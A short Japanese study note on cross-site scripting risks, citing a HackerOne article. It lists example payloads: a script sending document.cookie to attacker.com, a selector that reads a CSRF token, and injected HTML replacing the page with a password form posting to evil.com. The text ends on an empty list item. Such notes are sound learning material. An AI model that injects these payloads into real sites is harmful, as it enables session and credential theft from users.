 ## ## 参考サイト
- https://www.hackerone.com/knowledge-center/how-xss-payloads-work-code-examples-and-how-prevent-them

## ## XSSのリスク
- CookieやSessionの窃取
```js
<script>new Image().src="https://attacker.com/cookie.php?cookie="+document.cookie</script>
```
- CSRFの窃取
```js
document.querySelector('[name=csrf]')
```
- フィッシング(偽UI挿入)
```js
document.body.innerHTML = '<form action="http://evil.com"><input name="pass"></form>';
```
- 